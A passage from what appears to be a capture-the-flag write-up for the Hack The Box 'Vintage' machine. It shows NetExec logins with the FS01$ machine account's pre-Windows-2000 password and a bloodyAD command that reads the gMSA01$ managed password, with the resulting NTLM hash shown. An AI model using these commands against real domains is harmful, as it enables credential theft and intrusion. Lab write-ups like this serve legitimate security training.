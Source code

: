 and booomm!!!

```bash
➜  Vintage nxc smb DC01.vintage.htb -u FS01$ -p fs01   
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\FS01$:fs01 STATUS_NOT_SUPPORTED 
➜  Vintage nxc smb DC01.vintage.htb -u FS01$ -p fs01 -k
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\FS01$:fs01 
```

we have kerberos auth with fs01 but its just pre2k so nothing important too much. we can continue directly.

## ReadGMSAPassword
![alt text](../assets/images/vintage8.png)

We can do it really easy with bloodyAD.

```bash
➜  Vintage bloodyAD -k --host DC01.vintage.htb -d vintage.htb -u 'FS01$' -p 'fs01'  get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178

```
